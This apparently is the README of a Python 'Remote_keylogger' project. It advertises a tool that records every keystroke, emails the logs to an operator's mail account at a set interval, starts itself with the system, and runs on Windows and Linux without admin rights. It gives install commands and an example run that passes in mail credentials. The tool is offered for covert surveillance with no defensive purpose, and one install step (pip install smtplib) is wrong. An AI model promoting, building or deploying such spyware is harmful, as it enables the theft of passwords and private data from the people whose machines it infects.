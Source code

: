 # Remote_keylogger
 Remote persistent keylogger for Windows and Linux.

python requirement for code:
#pip install pynput
#pip install smtplib

Python Remote keylogger execution:
eg: #python rlogger.py --time 60 --mail yourmail@gmail.com --password yourmailpasswd

options arguments requirements:
--time: time interval for reporting keylogs
--mail: your mail for getting logs
--password: your mail password required here


Features:      
Logs keys pressed on keyboard    
 Sends reports by email.    
 Starts with system startup.    
 Works with Linux and Windows.     
Does not require root or admin privlages.
